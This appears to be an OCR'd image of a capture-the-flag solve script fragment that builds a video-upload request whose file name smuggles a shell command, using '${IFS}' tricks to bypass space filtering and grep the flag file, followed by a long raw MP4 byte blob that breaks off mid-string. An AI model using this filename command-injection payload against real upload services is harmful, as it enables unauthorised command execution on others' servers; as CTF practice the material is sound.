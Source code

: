 ```
		data = '------WebKitFormBoundaryVe8B2hOjY4mvCW76\r\nContent-Disposition: form-data; name="video"; filename="xx;${IFS%??}cd${IFS%??}..&&${IFS%??}cd${IFS%??}..&&cd${IFS%??}..&&cd${IFS%??}..&&${IFS%??}grep${IFS%??}${IFS%??}\\"INTIGRITI{' + inputstr + '\\"${IFS%??}flag.txt;#.mp4"\r\nContent-Type: video/mp4\r\n\r\n\x00\x00\x00 ftypisom\x00\x00\x02\x00isomiso2avc1mp41\x00\x00D\x80moov\x00\x00\x00lmvhd\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03è\x00\x00xP\x00\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x1eUtrak\x00\x00\x00\\tkhd\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00xP\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x01@\x00\x00\x00ð\x00\x00\x00\x00\x00$edts\x00\x00\x00\x1celst\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00xP\x00\x00\b\x00\x00\x01\x00\x00\x00\x00\x1dÍmdia\x00\x00\x00 mdhd\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00<\x00\x00\a8\x00UÄ\x00\x00\x00\x00\x00-hdlr\x00\x00\x00\x00\x00\x00\x00\x00vide\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00VideoHandler\x00\x00\x00\x1dxminf\x00\x00\x00\x14vmhd\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$dinf\x00\x00\x00\x1cdref\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\furl \x00\x00\x00\x01\x00\x00\x1d8stbl\x00\x00\x00¨stsd\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x98avc1\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01@\x00ð\x00H\x00\x00\x00H\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x18ÿÿ\x00\x00\x002avcC\x01d\x00\fÿá\x00\x19gd\x00\f¬ÙAAû\x01\x10\x00\x00\x03\x00\x10\x00\x00\x03\x01àñB\x99`\x01\x00\x06hêàA,\x8b\x00\x00\x00\x10pasp\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x18stts\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x01Î\x00\x00\x04\x00\x00\x00\x000stss\x00\x00\x00\x00\x00\x00\x00\b\x00\x00\x00\x01\x00\x00\x00\x7f\x00\x00\x00Ä\x00\x00\x00ò\x00\x00\x01G\x00\x00\x01c\x00\x00\x01\x83\x00\x00\x01£\x00\x00\r\x88ctts\x00\x00\x00\x00\x00\x00\x01¯\x00\x00\x00\x02\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x10\x00\x00\x00\x00\x02\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x10\x00\x00\x00\x00\x02\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x10\x00\x00\x00\x00\x02\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x10\x00\x00\x00\x00\x02\x00\x00\x04\x00\x00\x00\x00\x02\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x03\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x10\x00\x00\x00\x00\x02\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x02\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x14\x00\x00\x00\x00\x01\x00\x00\b\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x10\x00\x00\x00\x00\x02\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\f\x00\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x00\x01\x00\x00\x10\x00\x
```